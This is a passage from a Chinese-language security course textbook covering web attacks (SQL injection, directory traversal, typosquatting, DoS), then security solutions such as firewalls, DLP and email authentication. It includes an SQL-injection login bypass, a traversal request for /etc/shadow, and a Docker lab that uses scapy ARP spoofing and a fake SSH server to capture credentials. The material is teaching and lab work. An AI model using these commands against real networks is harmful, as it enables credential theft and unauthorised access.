取决于所使用的方法，会话劫持可以通过使用更好的会话密钥或要求使用传输层安全 (TLS) 进行连接来防止。在上述场景中，防止会话劫持的唯一方法是修复最初的 XSS 漏洞。

### 5.5.5. SQL 注入

如在 SSRF 部分中提到，几乎所有 Web 系统都由内部运行的其他服务器支持。最常见的场景之一是有一个 Web 服务器访问内部数据库。关系数据库使用结构化查询语言 (SQL)，因此 Web 应用程序在其常规操作期间可能会生成许多不同的 SQL 查询。如果用户输入直接放入查询中，就有可能使结果以意想不到的方式运行，或从数据库中获取秘密信息。

查看以下 PHP 代码：

```
$userName = $_POST['user_name']
$pw = $_POST['password']
$statement = "SELECT * FROM users WHERE name='" + $userName + "' AND password='" + $pw + "';"
```

在提交 `user_name` `admin` 和密码 `password` 的情况下，将生成以下 SQL：`SELECT * FROM users WHERE name='admin' AND password='password';`

在提交 `user_name` `admin` 和密码 `' OR 1=1;` 的情况下，将生成以下 SQL：`SELECT * FROM users WHERE name='admin' AND password='' OR 1=1;`

在这种情况下，用户无需有效密码即可登录。

### 5.5.6. XML 注入

XML 代表可扩展标记语言，通常用于传输消息。XML 可以是 Web 系统基础设施的重要组成部分，因此如果未经过清理的用户输入被允许生成系统中使用的 XML，许多事情都可能出错。使用 XML 注入，攻击者可能能够检索秘密文件或创建管理员帐户。XML 注入可以通过输入验证或可能禁用所使用框架中的外部实体解析来缓解。

### 5.5.7. LDAP 注入

最后，轻量级目录访问协议 (LDAP) 通常用于存储有关用户的信息。因此，它可以在许多 Web 应用程序后面找到。LDAP 也以类似于 SQL 的方式支持复杂查询。未经过清理的用户输入可能导致产生意外结果的 LDAP 查询。

### 5.5.8. 目录遍历

设计不良的 Web 服务器可能会受到目录遍历攻击。回想一下，Web 服务器旨在从特定目录（例如 `/var/www`）提供静态内容。现在假设攻击者提交了对 `http://www.example.com/../../etc/shadow` 的 `GET` 请求。Web 服务器可能实际上会向上两个目录并提供该文件。

可以通过文件权限、访问控制和过滤传入请求来解决这个问题。重要的是要注意，在 HTTP 请求中指定路径有多种方式，包括使用 URL 编码，因此必须清理所有可能的恶意输入。

### 5.5.9. URL 劫持/拼写错误抢注

一种不幸常见的广泛攻击是购买与非常流行的域名名称相似的域名。当用户拼写错误流行域名时，他们最终会进入恶意行为者的网站。例如，想象有人注册了 `gooogle.com`（注意三个 o）。他们可以从拼写错误 google 的人那里获得大量流量。

这些网站可用于广告收入、钓鱼凭据，甚至可能用于分发恶意软件。几种浏览器实施的一种缓解措施是维护恶意网站列表，并在用户访问之前警告用户。

### 5.5.10. 域名劫持

域名在一定时间后会过期，注册人可能忘记续费。在这些罕见的情况下，攻击者可能会实际获得流行域名（例如 google.com）的控制权，并将流量路由到他们的网站。恶意活动与拼写错误抢注相同，但攻击者不需要依赖用户犯错。

还可以通过使用被盗/泄露的凭据登录域名注册系统来劫持域名。在此场景中，攻击者仍然可以修改记录以指向他们的服务器，但不需要依赖公司忘记续费。

### 5.5.11. 区域传输攻击

关于域名系统，区域传输攻击可能会泄露有关域名的敏感信息。DNS 从设计上就是一个分布式系统，用于将域名解析为 IP 地址。由于系统的分布式性质，协议被构建用于由多个服务器提供单个域名服务。这些服务器使用 DNS 区域传输相互传递信息。

通常这些通信应该是内部的，因为它们可能泄露有关区域的宝贵信息。不幸的是，配置不当的 DNS 服务器可能会公开宣传其区域传输。[在这种情况下，攻击者可以在攻击的侦察阶段使用泄露的信息。](https://digi.ninja/projects/zonetransferme.php)

### 5.5.12. 点击劫持

网站可能以这种方式设计，即界面对用户来说令人困惑，他们无意中点击了广告或恶意链接。这在低完整性网站（如流媒体网站、种子跟踪器和成人网站）上很常见。这通常因广告筛选不佳，甚至故意制作看起来类似于内容的广告而变得复杂。

## 5.6. 结果

### 5.6.1. 远程代码执行 (RCE)

攻击最危险的结果之一是远程或任意代码执行。RCE 使攻击者能够在受攻击的机器上执行他们想要的任何指令。通常，攻击者会启动一个具有管理权限的 shell，以便他们可以做任何他们想做的事情。想象一下 SSH 登录到远程 Linux 机器并将权限提升到 root。这基本上就是 RCE 可能带来的权力类型。攻击者还可以使用 RCE 通过导致程序终止来攻击计算资源的可用性。在这种情况下，RCE 被用作拒绝服务 (DoS) 攻击的一部分。

### 5.6.2. 权限提升

没有电梯到 root，你必须使用漏洞。

~ 匿名


权限提升涉及通过非预期方式获得对受保护资源的访问。一个示例是 [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)，这是最近在 Linux `pkexec` 命令中发现的本地权限提升漏洞。`pkexec` 以提升的权限运行，并且不安全地解析命令行参数。因此，它可以被利用来给普通用户一个 root shell。这将是本地垂直权限提升的一个示例。

权限提升通常分为两类：水平和垂直。水平权限提升提供对资源的类似访问，即从一个用户帐户移动到另一个用户帐户。垂直权限提升提供更高级别的访问，即从用户帐户移动到管理员帐户。实现权限提升的五种主要方式是凭据利用、漏洞/利用、配置错误、恶意软件和社会工程学。

### 5.6.3. 拒绝服务 (DoS)

拒绝服务攻击 (DoS) 试图通过用请求淹没系统来阻止系统工作。分布式拒绝服务攻击 (DDoS) 通过利用许多不同的机器来做同样的事情。通常，DDoS 攻击的攻击节点是僵尸网络的成员，即之前被利用并处于攻击者控制下的机器。

DoS 攻击可以采取多种形式，包括：

SYN 洪水：恶意行为者可以发送多个 SYN 数据包来启动 TCP 三次握手。SYN 数据包易于发送，但可能导致响应它们的服务器分配大量资源。由于资源分配的不对称性，这使得 SYN 数据包特别适合于 DoS 攻击。[SYN Cookie](https://en.wikipedia.org/wiki/SYN_cookies) 可用于帮助防止这种类型的攻击。

ICMP 洪水：通常称为 ping，ICMP 回显请求可用于淹没服务器。尤其是当从多个来源发送时。解决方案通常是在服务器上限制 ICMP 数据包的速率。

缓冲区溢出/利用：设计不良的软件在接收到意外数据时可能会失败。这可能简单到发送超过缓冲区容量的数据，或者[将面向 Windows 系统端口 139 的数据包的紧急指针 (URG) 设置为](https://en.wikipedia.org/wiki/WinNuke)。

## 5.7. 实验：使用 Scapy 进行 MitM

在本实验中，我们将使用一个假 SSH 服务器 [sshesame](https://github.com/jaksi/sshesame) 和一个交互式数据包操作程序 [scapy](https://scapy.net/)，来干扰受害者和服务器之间的正在进行的 SSH 会话，将自己定位在流量中间，并捕获受害者使用的用户名和密码。

NameIP Address


server`172.20.0.5`

victim`172.20.0.6`

attacker`172.20.0.7` 对于本实验，我们的 IP 地址是静态配置的，且攻击者已知这些地址。还假设攻击者位于本地网络中。最后，victim 被错误配置为忽略主机密钥的变化。这并不完全不合理，因为许多用户在提示时都会忽略警告并清空 known\_hosts 文件。首先下载 [scapy.zip](https://github.com/rxt1077/it230/raw/main/labs/scapy.zip) 文件，该文件包含我们将使用的 Docker Compose 配置。将其解压到你有写权限的目录中。本实验需要我们使用三个终端窗口/选项卡：一个用于 `docker-compose up` 命令，它将显示后台运行的所有内容的输出；一个用于 victim，它将显示与 server 的 SSH 会话；还有一个用于 attacker，我们将使用它来发起攻击。


打开三个终端，并在每个终端中 `cd` 进入你解压实验 zip 文件的目录。你所在的目录中应该有一个 `docker-compose.yml` 文件以及 `server`、`victim` 和 `attacker` 目录。

在第一个终端中运行 `docker-compose up` 命令来构建镜像并运行容器：

Listing 1. docker-compose up

```
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose up
Creating network "scapy_testnet" with the default driver
Creating scapy_server_1 ... done
Creating scapy_victim_1 ... done
Creating scapy_attacker_1 ... done
Attaching to scapy_victim_1, scapy_server_1, scapy_attacker_1
server_1 | > Starting SSHD
server_1 | >> Generating new host keys
scapy_victim_1 exited with code 0
attacker_1 | INFO 2021/10/07 13:56:45 No host keys configured, using keys at "/root/.local/share/sshesame"
attacker_1 | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_rsa_key" not found, generating it
attacker_1 | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ecdsa_key" not found, generating it
attacker_1 | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ed25519_key" not found, generating it
attacker_1 | INFO 2021/10/07 13:56:45 Listening on [::]:22
server_1 | ssh-keygen: generating new host keys: RSA DSA ECDSA ED25519
server_1 | >>> Fingerprints for dsa host key
server_1 | 1024 MD5:a5:e6:e9:38:d2:2e:88:fd:f0:aa:a8:05:07:35:5f:18 root@a010fe3c2f3c (DSA)
server_1 | 1024 SHA256:NM7DONpt1doZp4e6WV+6WVVr+KUrh9luUSRcAhnzdyw root@a010fe3c2f3c (DSA)
server_1 | 1024 SHA512:LHfFdSk1XiAKQArH0CW+RkaKv5GgovPCH7UIQ+P4T2LbgGpCBP5aGA1V3oriYbTZWuS9TlUgDbEfTBq19AV/cA root@a010fe3c2f3c (DSA)
server_1 | >>> Fingerprints for rsa host key
server_1 | 3072 MD5:74:44:b6:a2:74:b9:7e:1b:ba:3d:27:b8:19:3a:48:df root@a010fe3c2f3c (RSA)
server_1 | 3072 SHA256:mubm9mLNrdNDk5fyj0dghDBIbbwcVKXo23Qdv61/S/c root@a010fe3c2f3c (RSA)
server_1 | 3072 SHA512:JFQhS6trY7sNqRSwZ+t0uyBb5ddNh9qSLtBrMaa5G7xWzKHpxCuKBSDbvLk4W9JKeQftTU4293UDV9vqCcf/6w root@a010fe3c2f3c (RSA)
server_1 | >>> Fingerprints for ecdsa host key
server_1 | 256 MD5:15:75:5f:9b:72:7c:f0:13:ea:0d:b4:47:b7:62:69:63 root@a010fe3c2f3c (ECDSA)
server_1 | 256 SHA256:4p/Afp/8C2tHn7AePdS7OHCgPxfBamdaLIUg4IJ7xx4 root@a010fe3c2f3c (ECDSA)
server_1 | 256 SHA512:NnbevqBXFkGQWIirdFsLPnX85q7q/1Y7E4i+BLHLqE3cg2aqkduBJsssyr9+G7bSvq7txvjl9SRmyRAzuDT7DQ root@a010fe3c2f3c (ECDSA)
server_1 | >>> Fingerprints for ed25519 host key
server_1 | 256 MD5:ad:00:61:26:4d:a0:07:be:6b:8e:91:bd:f0:65:e6:14 root@a010fe3c2f3c (ED25519)
server_1 | 256 SHA256:Vl7jQulDsONglP1xbSN+J8nSfCaIER40rHhgy7z/BYg root@a010fe3c2f3c (ED25519)
server_1 | 256 SHA512:WkmvOWe6oaZ/qE1ZiA0rZAjn9H+hCDxI8NHpsjRNCalK/CgVV9+VhkzHgRTKfKTqQeE0y/Zz2GaEJGv/sapCHg root@a010fe3c2f3c (ED25519)
server_1 | WARNING: No SSH authorized_keys found!
server_1 | >> Unlocking root account
server_1 | WARNING: password authentication enabled.
server_1 | WARNING: password authentication for root user enabled.
server_1 | >> Running: /etc/entrypoint.d/changepw.sh
server_1 | Running /usr/sbin/sshd -D -e -f /etc/ssh/sshd_config
server_1 | Server listening on 0.0.0.0 port 22.
server_1 | Server listening on :: port 22.
```

① 注意 attacker 在后台运行着一个伪造的 SSH 服务器
② 注意 server 在后台运行着一个合法的 SSH 服务器

在第二个终端中运行 `docker-compose run victim bash`，然后从提示符处使用密码 "password" SSH 连接到 server：

Listing 2. victim

```
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose run victim bash
Creating scapy_victim_run ... done
bash-5.0# ssh server
Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.
root@server's password:
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment. Leave this connection open while you experiment with scapy from 'attacker'.
bf9ebe42a108:~#
```

① 密码是 "password"。输入时不会在屏幕上显示。

在第三个终端中，我们首先执行（回顾此时 sshesame 已经在后台运行）在 attacker 上启动一个 BASH shell，并将其配置为不仅接受其自身 IP 地址的数据包，还接受 server 的 IP 地址的数据包。一旦流量被路由到我们这里，这将允许 attacker 也响应发往 172.20.0.5 的数据包。

Listing 3. attacker

```
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose exec attacker bash
root@5195de3d330c:/# ip addr add 172.20.0.5 dev eth0
root@5195de3d330c:/# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: tunl0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
3: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
347: eth0@if348: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:07 brd ff:ff:ff:ff:ff:ff
    link-netnsid 0
    inet 172.20.0.7/24 brd 172.20.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet 172.20.0.5/32 scope global eth0
       valid_lft forever preferred_lft forever
```

① 这是我们开始时的 IP
② 这是 attacker 认为自己拥有的附加 IP

现在 attacker 系统已配置完成，我们将交互式启动 `scapy`：

Listing 4. attacker

```
root@5195de3d330c:/# scapy
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
INFO: No IPv6 support in kernel
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.
aSPY//YASa apyyyyCY//////////YCa | sY//////YSpcs scpCY//Pp | Welcome to Scapy
ayp ayyyyyyySCP//Pp syY//C | Version 2.4.5
AYAsAYYYYYYYY///Ps cY//S | pCCCCY//p cSSps y//Y | https://github.com/secdev/scapy
SPPPP///a pP///AC//Y | A//A cyP////C | Have fun!
p///Ac sC///a | P////YCpc A//A | To craft a packet, you have to be a scccccp///pSP///p p//Y | packet, and learn how to swim in sY/////////y caa S//P | the wires and in the waves.
cayCyayP//Ya pY/Ya | -- Jean-Claude Van Damme
sY/PsY////YCc aC//Yp | sc sccaCY//PCypaapyCP//YSs spCPY//////YPSps ccaacs
>>>
```

你会注意到 scapy 的提示符是 `>>>`, 就像 python 一样，因为它 *就是* python。由于我们在使用 python，让我们通过定义一些简单的变量来让生活更轻松：

Listing 5. attacker


`>>> server_ip = "172.20.0.5"` `>>> victim_ip = "172.20.0.6"`

① IPv4 地址在 scapy 中是字符串

现在让我们看看 scapy 如何允许我们构建数据包。我们将构建一个以太网帧，其中包含一个 IP 数据包，其中包含一个 ICMP 回显请求，数据设置为我们的姓名：

## Listing 6. attacker

```
>>> ping = Ether()/IP(dst=server_ip)/ICMP()/"Ryan Tolboom" ① >>> ping.show() ② ###[ Ethernet ]### dst = 02:42:ac:14:00:05 src = 02:42:ac:14:00:07 type = IPv4 ###[ IP ]### version = 4 ihl = None tos = 0x0 len = None id = 1 flags = frag = 0 ttl = 64 proto = icmp chksum = None src = 172.20.0.7 dst = 172.20.0.5 \options \ ###[ ICMP ]### type = echo-request code = 0 chksum = None id = 0x0 seq = 0x0 unused = '' ###[ Raw ]### load = 'Ryan Tolboom' >>> result = srp1(ping) ③ Begin emission: Finished sending 1 packets. .* Received 2 packets, got 1 answers, remaining 0 packets >>> result.show() ###[ Ethernet ]### dst = 02:42:ac:14:00:07 src = 02:42:ac:14:00:05 type = IPv4 ###[ IP ]### version = 4 ihl = 5 tos = 0x0 len = 40 id = 62086 flags = frag = 0 ttl = 64 proto = icmp chksum = 0x301a src = 172.20.0.5 dst = 172.20.0.7 \options \ ###[ ICMP ]### type = echo-reply code = 0 chksum = 0xea7a id = 0x0 seq = 0x0 unused = '' ###[ Raw ]### load = 'Ryan Tolboom' >>> server_mac = result[0][0].src >>> server_mac '02:42:ac:14:00:05'
```

① Scapy 使用 `/` 运算符来嵌套协议。这是我的姓名，封装在 ICMP 数据包中，再封装在 IP 数据包中，最后封装在以太网帧中。请务必使用你自己的姓名！
② `show()` 命令以详细信息打印数据包
③ `srp1()` 函数在第二层发送和接收 *一个* 数据包

注意我们如何使用此方法来捕获服务器的 MAC 地址并将其保存在 `server_mac` 变量中。

我们还可以使用 ARP "who-has" 请求在第二层确定 MAC 地址。让我们构建并发送一个带有 ARP "who-has" 请求的广播以太网帧，目标是受害者的 IP 地址。结果将告诉我们受害者的 MAC 地址是什么：

## Listing 7. attacker

```
>>> whohas = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=victim_ip) >>> result = srp1(whohas) Begin emission: Finished sending 1 packets. * Received 1 packets, got 1 answers, remaining 0 packets >>> result.show() ###[ Ethernet ]### dst = 02:42:ac:14:00:07 src = 02:42:ac:14:00:06 ① type = ARP ###[ ARP ]### hwtype = 0x1 ptype = IPv4 hwlen = 6 plen = 4 op = is-at hwsrc = 02:42:ac:14:00:06 psrc = 172.20.0.6 hwdst = 02:42:ac:14:00:07 pdst = 172.20.0.7 >>> victim_mac = result[0].src
```

① 这是受害者的我的 MAC 地址，但你的可能不同！

ARP 交互的工作方式应该是这样的。我们广播询问应该为某个 IP 使用什么 MAC，然后会收到来自 *合法拥有该 MAC 和 IP 的人* 的响应。

我们拥有创建 ARP 数据包所需的一切，告诉受害者当他们尝试访问服务器 IP 时，将流量发送给我们：

## Listing 8. attacker

```
>>> victim_ip, victim_mac, server_ip, server_mac ('172.20.0.6', '02:42:ac:14:00:06', '172.20.0.5', '02:42:ac:14:00:05')
```

现在让我们创建并查看一个恶意 ARP 数据包：

## Listing 9. attacker

```
>>> bad_arp = ARP(op=2, pdst=victim_ip, psrc=server_ip, hwdst=victim_mac) >>> bad_arp <ARP op=is-at psrc=172.20.0.5 hwdst=02:42:ac:14:00:06 pdst=172.20.0.6 |>
```

这个数据包伪装成来自服务器，它在 IP 和 MAC 上都指向受害者，但用于发送它的 MAC 地址是我们的（默认情况下，我们不指定 `hwsrc`）。这意味着受害者将更新其 ARP 缓存，使得发往服务器的帧转发给攻击者。这实际上将原本从受害者发往服务器的所有第二层流量重定向。

继续发送该 ARP 数据包：

## Listing 10. attacker

```
>>> send(bad_arp) . Sent 1 packets.
```

现在回到带有 SSH 连接到服务器的受害者终端，尝试输入一些内容。一旦 SSH 需要发送数据，你就会收到断开连接错误，连接将中断。面对这样的问题，你认为大多数用户会怎么做？可能会尝试重新连接，让我们也试试。记住密码是 "password"。

## Listing 11. victim

```
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment. Leave this connection open while you experiment with scapy from 'attacker'. bf9ebe42a108:~# client_loop: send disconnect: Broken pipe ① bash-5.0# ssh server Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts. root@server's password: #
```

① 这发生在我们发送恶意 ARP 后，他们尝试输入内容时

等等，那个提示符看起来有点不同，关于保持登录的消息去哪了？原来受害者实际上登录到了我们的伪造 SSH 服务器，他们的用户名和密码已被记录！查看运行 `docker-compose up` 的终端输出，你将看到输入的凭据：

## Listing 12. docker-compose up terminal


## 5.8. 复习问题

MAC 地址欺骗可以让攻击者做什么？可以采取哪些措施来降低这种风险？

水平特权提升和垂直特权提升有什么区别？分别举例说明。

什么是 XSS，它如何用于攻击？

# 6. 安全解决方案

为了帮助应对安全漏洞，许多不同的供应商提供安全解决方案。这些解决方案可能是旨在帮助缓解安全威胁的硬件或软件。安全解决方案可以由内部开发，由第三方定制开发，或外包并作为服务提供。在评估解决方案时，制定计划并了解该产品的功能和可能存在的陷阱非常重要。

## 6.1. 误报 / 漏报

当安全解决方案检测到威胁，但实际上不存在威胁时，这就是 `false positive`。取决于解决方案的复杂性，它可能使用一组规则、妥协指标，甚至可能是人工智能来触发其警报系统。在产生大量误报的解决方案的情况下，团队逐一检查每个警报会很累人。最终，团队会被训练成忽略警报，使安全解决方案变得无用。

降低系统误报率的关键是更好地调整用于触发警报的规则集。安全团队可能会花时间确定事件基线，并寻找与实际攻击相对应的异常。然后可以使用这些信息来构建更好的检测系统。

### Webroot 杀毒软件

[2017 年，一款流行的杀毒服务创建了一条错误规则，将某些 Windows 操作系统文件识别为威胁。](https://www.nbcnews.com/tech/tech-news/popular-antivirus-program-mistakenly-ids-windows-threat-creating-chaos-n750521) 杀毒解决方案将这些文件隔离，这些文件对机器的运行至关重要。结果是机器无法使用。

13 分钟内，Webroot 将此规则分发到其杀毒软件，导致无数机器的运行停止。幸运的是，Webroot 能够快速识别问题并发送更新，该更新本可以让机器自动修复问题。不幸的是，他们分发更新的基础设施很快就过载了。

当安全解决方案无法识别威胁时，这被称为 `false negative`。虽然没有任何解决方案可以 100% 有效，但漏报可能会削弱人们对产品的信心。漏报可能由经验丰富的 SOC 团队通过密切监控正在发生的事情来解决。也可以通过 `Layered Security`（我们将在下一节介绍）来解决漏报。

## 6.2. 分层安全

鉴于单一安全解决方案永远无法 100% 有效，因此采用分层安全方法并使用多个系统是合理的。解决方案之间通常存在大量重叠，虽然在其他领域这可能看起来效率低下，但在网络安全中，我们将其视为一种好处。通过使用多个解决方案，有时被称为多层安全或纵深防御，您可以构建更强大的防护来应对漏洞。

让我们看一个例子，了解分层安全如何帮助减轻现实世界攻击的影响。假设 SOC 正在支持自托管机器上的 Web 应用程序。恶意行为者希望从 Web 应用程序中窃取数据。他们首先测试几种不同的 SQL 注入攻击是否有效。

设计良好的 Web 应用程序应当清理其输入，并可能防止查询到达数据库。同样，警觉的团队可能会注意到 SQL 查询突然激增，远超应用程序的通常基线。IDS（入侵检测系统）可能会将查询标记为已知的 SQL 注入攻击。假设攻击绕过了应用程序、团队和 IDS，数据库用户可能配置为遵循最小权限原则，查询将因缺乏权限而无法执行。

如您所见，任何一层都可能失效，但通过拥有多个层，攻击发生的机会会大大降低。

## 6.3. 网络解决方案

有许多产品可用于处理网络流量。它们通常被宣传为独立设备、安装在内部设备上的软件，或通过外部设备路由流量的订阅服务。在云计算时代，网络安全即服务越来越流行。

### 6.3.1. 防火墙

防火墙是一种服务/软件/设备，用于阻止不需要的流量并允许需要的流量。通常，防火墙是私有网络和互联网之间的屏障。

像 [nftables](https://wiki.nftables.org/wiki-nftables/index.php/Main_Page) 这样的软件可以用于在 Linux 路由器上为许多内部客户端构建防火墙。内部客户端也可以运行基于主机的防火墙，例如 [Windows Defender Firewall](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-firewall/windows-firewall-with-advanced-security)。最后，许多供应商（包括 Palo Alto 和 Cisco）提供即插式防火墙设备的硬件解决方案。可以使用这些解决方案的任何组合。

防火墙通常采用关于哪些数据包可以进入以及如何处理它们的规则。例如，防火墙可能有一条规则，允许来自外部主机通过端口 22 连接的数据包。这将允许 SSH 连接。同样，防火墙可能有一条规则来跟踪内部到外部的连接请求并执行网络地址转换（NAT）。在 IPv4 网络上，防火墙通常也会执行 NAT。

下一代防火墙（NGFW）执行标准防火墙的相同功能，但还使用集成的入侵防御系统（IPS）来缓解威胁。防火墙是执行这些操作的理想位置，因为它可以轻松关闭连接。NGFW 经常宣传人工智能威胁监控和自动威胁情报更新（通常更新攻击签名）。NGFW 也可以轻松地在 Linux 设备上构建，方法是将 [an IPS](https://www.snort.org/) 与 netfilter 防火墙结合使用。

网络基础设施还可以使用防火墙 `outside` 的一个特殊空间，称为非军事区（DMZ）。需要直接连接到互联网的服务器通常放置在 DMZ 中，这样它们就不必处理限制性防火墙规则。这些服务器可用于检测恶意活动、监控传入流量，或处理基本请求，例如提供静态网页。

世界上最大的防火墙是中国的防火长城，始于 1998 年，旨在防止外部影响进入中国。它是一个用于阻止 IP、劫持 DNS 查询、限制流量并执行 MitM 解密的系统。防火长城由执行数据包检查和内容过滤的代理和防火墙组成。VPN 经常在中国被用来绕过防火长城，而防火长城也在不断更新，以尝试检测并关闭此类流量。

### 6.3.2. 代理


代理通常位于用户和外部网络之间。代理可以代表用户接收和发送请求，从而完全控制进出的流量。

代理可用于缓存、访问控制、URL 过滤、内容扫描，甚至数据包检查。代理解决方案可以是显式或透明的，并由许多公司提供，包括 McAfee、Fortigate、Netsparker 和 Palo Alto。代理的典型应用是在学区网络上过滤不当内容。

代理还可以分为 `forward` 和 `reverse` 配置。正向代理将来自私有或内部网络的请求传递到互联网。正向代理可以通过缓存加快本地请求，并验证请求是否应执行。正向代理与标准防火墙和网络地址转换（NAT）互操作。

反向代理接收来自外部源的请求并将其传递给内部服务。这有助于防止客户端直接访问内部服务。反向代理也可以使用缓存并验证请求。反向代理还可以配置为与防火墙一起工作。与过去常见的将服务器放置在防火墙外的非军事区（DMZ）的做法相比，现在更常见的是使用反向代理来访问该服务器。

### 6.3.3. 负载均衡器

反向代理的常见应用是充当流量的负载均衡器。负载均衡器将工作（以外部客户端请求的形式）分配给内部资源，通常是服务器。

例如，如果一家公司有四台服务器支持 Web 应用程序，他们可以使用反向代理负载均衡器，该负载均衡器接收来自客户端的请求并将该请求传递给四台内部服务器之一。使用不同的指标来确定服务器的利用率，包括最少使用（轮询）、加权、最少活动连接数。负载均衡器优化带宽并提高可用性。

### 6.3.4. VPN

虚拟专用网络（VPN）用于加密两个网络或客户端与网络之间的互联网流量。VPN 已成为连接远程办公室或连接远程员工的标准程序。鉴于在家工作的增长，几乎所有用户都熟悉 VPN 是什么以及它的作用。

站点到站点 VPN 通常用于连接办公室。这种 VPN 是永久运行的。示例是连接两个大学校园：NJIT Newark 和 NJIT Jersey City。在此场景中，任一校园的用户都期望能够随时安全地连接到对面校园的服务。流量经过加密并通过互联网传输。

远程访问 VPN 由个人用于连接到安全网络。这种 VPN 通常通过 Cisco AnyConnect 等应用程序启动。当应用程序运行时，用户能够像在办公室一样安全地访问内部资源。

许多供应商提供 VPN 产品，包括 Cisco、Citrix、Fortinet、Palo Alto 和 Checkpoint。还有许多开源选项可用于构建 VPN，包括 [OpenVPN](https://openvpn.net/)、[WireGuard](https://www.wireguard.com/) 和 [IPsec](https://linuxhint.com/how-to-implement-ipsec-in-linux/)。

### 6.3.5. TAP

有时，网络或安全工程师有必要监控特定网络段上发生的情况。在这种情况下，可以使用网络终端访问点（TAP）。TAP 创建网络流量的副本，并将其转发到交换机或路由器上的特定端口。

## 6.4. EDR

端点检测与响应（EDR）用于保护端点：服务器、工作站、桌面、移动设备等。EDR 通常实现为基于主机的事件预防系统（HBIPS），即在端点上运行以监控和收集数据的软件。

这些系统通常会监控妥协指标，扫描恶意软件，并可根据需要隔离或关闭端点。公司硬件是任何企业的一项重大投资，EDR 确保该投资受到保护。存在许多 EDR 系统，包括 FireEye、SEP 和 CrowdStrike。

## 6.5. 数据丢失防护

数据丢失防护（DLP）解决方案旨在防止敏感数据被窃取。这可能包括个人身份信息（PI）、医疗记录、社会安全号码（SSN）、信用卡号码等。通常，DLP 要么在端点和服务器上运行（静态数据），要么在网络上运行（动态数据）。

网络 DLP 解决方案可能会监控电子邮件或 Web 流量中的敏感字符串，例如 SSN。当在电子邮件中检测到 SSN 时，电子邮件会被隔离并发送警报。服务器和端点 DLP 解决方案可能会定期扫描系统，以查看是否存储了敏感字符串。如果是一个不应该访问敏感数据的系统，将发送警报。端点上的 DLP 还可以限制 USB 使用或批量数据传输等任务。

## 6.6. IDS/IPS

入侵检测系统和入侵防御系统是监控网络流量以检测/防止攻击的系统。这些系统可能会在流量中查找已知漏洞，例如 SQL 注入模式，并在检测到时触发警报。入侵 `prevention` 系统会更进一步，实际关闭连接或终止违规进程。

这些系统使用漏洞签名或 ID，这些是妥协指标（IoC）、异常或奇怪行为。IDS/IPS 的威力往往来自其签名数据库的更新程度。该类别中有许多解决方案，包括 Splunk、QRadar、CrowdStrike 和 SolarWinds。

## 6.7. 电子邮件解决方案

用于发送/接收电子邮件的原始协议很简单，并非为当今面临的挑战而设计。垃圾邮件和网络钓鱼电子邮件不幸的是很常见，可以通过电子邮件客户端插件来解决，这些插件扫描病毒或使用模式来识别网络钓鱼电子邮件。其中许多工具已经内置在 Google 的 GMail 或 Microsofts Exchange 中。

另一个重大挑战是验证电子邮件的发件人。目前存在三种常见方法：发件人策略框架（SPF）、域密钥识别邮件（DKIM）和基于域的消息身份验证、报告和一致性（DMARC）。

SPF 利用 DNS 域上的 TXT 记录来验证发件人的 IP。当收到入站邮件时，会检索发件人域的 SPF 信息，从而提供允许的 IP 列表。例如，NJIT 的 SPF 记录目前如下所示：

```
v=spf1 ip4:128.235.251.0/24 ip4:128.235.209.0/24 ip4:66.207.100.96/27 ip4:66.207.98.32/27 ip4:205.139.104.0/22 ip4:206.79.6.0/24 ip4:209.235.101.208/28 ip4:216.185.73.96/27 ip4:69.196.241.0/28 ip4:69.196.242.128/28 ip4:46.183.242.192/28 ip4:202.38.144.192/28 ip4:69.196.236.208/28 ip4:103.225.232.128/28 ip4:37.216.222.128/28 ip4:64.125.200.96/28 ip4:74.217.49.0/25 ip4:69.25.227.128/25 ip4:52.45.50.190 ip4:198.187.196.100 include:_netblock.njit.edu include:spf.sparkmail.org ~all
```

需要注意的是，并非所有这些 IP 都属于 NJIT。有些可能是代表 NJIT 发送电子邮件的群组，例如大量邮件发送器、Web 应用程序等。当正确配置时，SPF 防止攻击者冒充来自某个域的电子邮件。

DKIM 利用公钥和私钥加密来确保电子邮件来自特定的 SMTP 服务器。域的公钥通过特定域的 TXT DNS 记录进行宣传。私钥由该域的 SMTP 服务器用于对正在发送的电子邮件进行签名。接收 SMTP 服务器随后可以验证消息是否来自该域的有效 SMTP 服务器。私钥也可以分发给代表该域发送电子邮件的 SMTP 服务器。

DMARC 对 SPF 和 DKIM 验证应用策略。DMARC 回答诸如“如果消息来自有效的 SPF IP 但没有有效的 DKIM 签名，我该怎么办？”或“如果消息看起来像垃圾邮件但有有效的 DKIM 签名，我该怎么办？”等问题。DMARC 将许多用于验证电子邮件的工具结合在分层方法中，以确定是放行、隔离还是阻止电子邮件。

## 6.8. SIEM


